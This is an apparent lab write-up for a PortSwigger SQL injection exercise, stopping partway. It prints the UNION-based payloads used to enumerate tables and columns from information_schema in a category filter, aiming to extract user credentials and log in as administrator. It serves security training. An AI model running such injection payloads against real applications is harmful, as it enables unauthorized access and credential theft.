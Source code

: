 <img width="1347" height="872" alt="1" src="https://github.com/user-attachments/assets/3d40e6c3-59ad-4e1a-9cfd-c68eb2934887" />
# SQL injection attack, listing the database contents on non-Oracle databases

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/examining-the-database

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


We see there are 2 values displayed in the table, the description and the content of the post:


<img width="1347" height="872" alt="1" src="https://github.com/user-attachments/assets/f2fa9c2d-3f33-4aed-9715-51168f8e34a7" />



We find these payload are valid to display the 4 posts in Gifts and the second all the items:

```
/filter?category=Pets'--
/filter?category=Pets'+or+1=1--
```

Also, that there are 2 columns returned by the query and we can do a UNION attack with the payload:

```
/filter?category=Pets'+union+all+select+NULL,NULL-- 
```

We can get the table names listing TABLE_NAME from information_schema.tables:

```
/filter?category=Pets'+union+all+select+'1',TABLE_NAME+from+information_schema.tables--
```


<img width="1517" height="797" alt="2" src="https://github.com/user-attachments/assets/b0b5559a-e28c-4213-a18a-7277bad7ce1b" />


Next list the columns in the table “users_ktgnak” with something like:

```
SELECT * FROM information_schema.columns WHERE table_name = 'users_ktgnak'
```
